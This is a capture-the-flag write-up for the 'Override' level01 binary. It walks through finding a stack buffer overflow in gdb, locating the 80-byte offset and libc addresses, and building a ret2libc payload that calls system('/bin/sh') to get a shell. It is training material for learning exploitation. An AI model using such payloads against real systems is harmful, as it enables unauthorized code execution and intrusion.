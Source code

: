 # Override Level01 Exploit Write-up

## 🛠️ Objective

The goal is to gain a shell using buffer overflow in the `level01` binary by overwriting the return address with a call to `system("/bin/sh")`.

---

## 🔍 Analyzing the Binary

### Launch `gdb` and disassemble `main()`

```bash
gdb -q ./level01
disas main
```

Look for two `fgets()` calls and the logic flow after checking return values of `verify_user_name` and `verify_user_pass`.

### Confirm logic with breakpoints

```gdb
b main
run
```

---

## 🧪 Testing the Vulnerability

Inside `main`, the second `fgets()` reads user input into a buffer of size 16 (on the stack), but accepts 100 bytes:

```c
char buffer[16];
fgets(buffer, 100, stdin); // overflow possible
```

So we can overwrite the saved return address (EIP).

---

## 🔎 Finding the Offset to EIP

To find the exact offset at which EIP is overwritten:

```bash
python -c 'print("dat_wil\n" + "A"*100)' > /tmp/input.txt
gdb ./level01
r < /tmp/input.txt
```

In GDB, if the crash occurs, use:

```gdb
info registers
```

You’ll see something like:

```
EIP: 0x41414141 ('AAAA')
```

Try different lengths (e.g., 76, 80, 84…) until EIP is overwritten with `0x42424242` (or any pattern you pick).

**In our case, the offset is 80 bytes.**

---

## 📍 Finding Addresses

### 1. `system()` address:

```gdb
find 0xf7e2c000, 0xf7fcc000, "system"
```

Example result:

```
0xf7e6aed0
```

Use:

```gdb
x/s 0xf7e6aed0
```

### 2. `exit()` address:

```gdb
info functions exit
x/s 0xf7e5eb70
```

### 3. String "/bin/sh":

```gdb
find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
```

Result:

```
0xf7f897ec
```

---

## 🧨 Final Payload

Now construct the payload:

```bash
python -c 'print("dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")' > /tmp/payload
```

Breakdown:

* `"dat_wil\n"`: valid username
* `"A"*80`: fill buffer up to return address
* `system()` address: `0xf7e6aed0`
* `exit()` address:   `0xf7e5eb70`
* `"/bin/sh"` string: `0xf7f897ec`

### Test it

```bash
(cat /tmp/payload; cat) | ./level01
```

If successful, you should get a shell:

```bash
whoami
level02
```

---

## 🧠 Summary

* Vulnerability: Buffer overflow on password input.
* Offset to EIP: 80 bytes.
* Overwritten return address → `system("/bin/sh")`.
* Used GDB to find real libc addresses dynamically.

---

✅ Done. You now have a working shell and root cause understanding.

---

